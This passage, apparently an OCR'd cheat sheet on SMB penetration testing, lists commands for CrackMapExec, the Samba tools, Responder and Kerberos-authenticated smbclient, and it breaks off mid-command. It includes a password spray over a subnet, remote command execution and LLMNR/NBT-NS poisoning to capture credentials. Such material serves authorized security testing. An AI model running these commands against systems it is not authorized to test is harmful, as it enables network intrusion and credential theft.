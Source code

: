 ### CrackMapExec

CrackMapExec is a powerful post-exploitation tool designed to assess and exploit Windows networks.

```bash
# Install CrackMapExec
pip install crackmapexec

# Domain password spray
crackmapexec smb 192.168.1.0/24 -u administrator -p password

# Execute commands
crackmapexec smb 192.168.1.10 -u administrator -p password -x "whoami"
```

### Samba Suite

The Samba suite includes various tools for interacting with SMB/CIFS services.

```bash
# Install Samba tools
sudo apt-get install samba-common-bin

# Use nmblookup
nmblookup -A 192.168.1.10

# Use net
net view \\192.168.1.10
```

### Responder

Responder is a tool designed to poison LLMNR, NBT-NS, and MDNS responses.

```bash
# Install Responder
git clone https://github.com/lgandx/Responder
cd Responder

# Run Responder
sudo python3 Responder.py -I eth0 -wrfv
```

## Advanced Techniques

### Kerberos Authentication with SMB

```bash
# Get Kerberos ticket
kinit username@DOMAIN.COM

# Use SMB with Kerberos
smbclient //server.domain.com/share -